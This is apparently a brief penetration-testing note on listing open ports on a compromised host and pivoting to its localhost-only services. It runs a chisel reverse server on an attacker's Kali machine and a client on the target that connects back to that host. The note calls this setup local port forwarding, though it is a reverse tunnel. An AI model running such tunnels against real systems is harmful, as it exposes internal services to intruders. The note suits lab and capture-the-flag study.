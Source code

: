 
# Find open ports

```
netstat -plant

ss -tulpn

ip addr
```

![[Pasted image 20240511130925.png]]

127.0.0.1 ports are interesting

53 is common as we know it's DNS only

```
chisel server --reverse --port 9001
```

target
```
./chisel client $kali_IP:9001 R:3333:127.0.0.1:6666
```

now we can access 6666 port of that machine locally on our kali
this is local port forwarding

